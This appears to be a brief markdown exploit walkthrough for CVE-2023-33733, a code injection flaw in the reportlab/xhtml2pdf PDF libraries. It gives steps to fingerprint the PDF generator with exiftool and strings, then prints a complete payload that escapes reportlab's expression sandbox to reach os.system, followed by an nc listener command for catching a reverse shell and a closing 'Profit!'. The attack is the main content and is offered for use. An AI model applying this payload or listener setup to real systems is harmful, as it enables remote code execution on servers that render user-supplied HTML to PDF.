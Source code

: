 # xhtml2pdf reportlab Python Library Code Injection CVE-2023-33733

## Link: https://github.com/c53elyas/CVE-2023-33733

### Steps to exploit:

#### 1) Check for any functions that converts to pdf. Download the pdf and inspect it with exiftool and/or strings

 - exiftool FILE.pdf

 - strings FILE.pdf

#### 2) Upon inspection, if we find that the producer is xhtml2pdf and/or with strings we find that the pdf is being generated with reportlab library, we craft an exploit to gain code execution.

<para<<font color="[[[getattr(pow, Word('__globals__'))['os'].system('INJECT_COMMAND_HERE') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"<
                exploit
</font></para<

#### 3) Setup listener to catch the shell

 - nc -lvnp 4444

#### 4) Inject the exploit written above to the appropriate field for it to trigger

#### 5) Profit!
